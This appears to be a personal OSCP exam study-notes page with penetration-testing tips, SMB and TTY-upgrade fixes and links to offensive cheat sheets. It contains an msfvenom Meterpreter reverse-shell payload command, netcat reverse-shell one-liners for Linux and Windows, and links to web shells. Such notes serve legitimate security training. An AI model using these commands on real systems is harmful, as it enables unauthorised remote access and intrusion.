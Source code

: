 # OSCP Notes

### Session Passing

* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`

### Shells

These are the most consistent webshells that I have discovered throughout testing:&#x20;

* [Aspnet](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx)&#x20;
* [PHP](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

`nc 10.10.10.1 4444 –e /bin/bash`

`nc.exe 10.10.10.1 4444 –e cmd.exe`

### SMB

If you are received the following error message when attempting to enumerate an SMB share then apply the following fix:&#x20;

```
do_connect: Connection to 10.11.1.136' failed (Error NT_STATUS_UNSUCCESSFUL)
```

Fix:

```
client min protocol = NT1
```

### Shell Upgrades

[This is a great guide on upgrading to a TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

`python -c 'import pty; pty.spawn("/bin/bash")'`

Best TTY upgrade:

1. Background your shell with `CTRL + Z` or `CMD + Z`

### General Tips and Tricks

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* When enumerating FTP, ensure you run `dir -a` to enumerate any hidden files or directories on the system. You may find l00t!
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;
* If `ifconfig` and `ip addr` are not working to get the IP address of a machine for a screenshot you can utilize `/sbin/ifconfig`

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
* [Impacket Cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
* [Amazing GitBook Reference](https://gitbook.brainyou.stream/basic-windows/tcm-win-privesc)
* [Privilege Escalation (Great resource)](https://oscp.securable.nl/privilege-escalation)

### References While Building my Notes

* [FareedFauzi's Notes](https://fareedfauzi.gitbook.io/oscp-notes/others/active-directory-attack)
* [Rotten Potato Blog](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [Pass the Hash with Machine Accounts](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts)
